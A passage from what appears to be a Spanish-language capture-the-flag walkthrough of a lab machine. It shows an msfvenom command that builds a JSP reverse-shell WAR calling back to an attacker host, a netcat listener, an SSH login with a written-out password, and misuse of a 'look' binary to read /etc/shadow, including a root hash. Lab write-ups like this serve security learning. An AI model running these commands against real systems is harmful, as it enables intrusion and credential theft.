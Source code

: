 2. Ahora subimos un archivo el cual nos genera una reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.18 LPORT=5555 -f war -o revshell.war
```
3. Subimos en arhcivo generado a la web 

```bash
nc -lnvp 5555
```

Podremos acceder a esta pagina: http://192.168.0.23:8080/revshell/

Y atendríamos una reverse shell

## Conseguir escalar privilegios
1. Podemos utilizar la shell para introducicr comandos
Podemos ir al /home y ver los usuarios que hay /randy y /jaye.

2. Encontramos en el usuarios /randy estos dos archivos

```plaintext
cat user.txt
ca73a018ae6908a7d0ea5d1c269ba4b6
cat note.txt
Hey randy this is your system administrator, hope your having a great day! I just wanted to let you know
that I changed your permissions for your home directory. You won't be able to remove or add files for now.

I will change these permissions later on.

See you next Monday randy!
```
3. Intentamos entrar por ssh al usuario: jaye conn la contraseña: melehifokivai

```bash
ssh jaye@192.168.0.18
```

Dentro encontramos este archivo que es interesante look 
(Con este archivo podremos mostrar los archivo de configuracion que no podemos ver simplemente con un cat)

```plaintext
$ LFILE=/etc/shadow
$ ./look '' $LFILE
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
sync:*:18858:0:99999:7:::
games:*:18858:0:99999:7:::
man:*:18858:0:99999:7:::
lp:*:18858:0:99999:7:::
mail:*:18858:0:99999:7:::
news:*:18858:0:99999:7:::
uucp:*:18858:0:99999:7:::
proxy:*:18858:0:99999:7:::
backup:*:18858:0:99999:7:::
list:*:18858:0:99999:7:::
irc:*:18858:0:99999:7:::
gnats:*:18858:0:99999:7:::
nobody:*:18858:0:99999:7:::
systemd-network:*:18858:0:99999:7:::
systemd-resolve:*:18858:0:99999:7:::
systemd-timesync:*:18858:0:99999:7:::
messagebus:*:18858:0:99999:7:::
```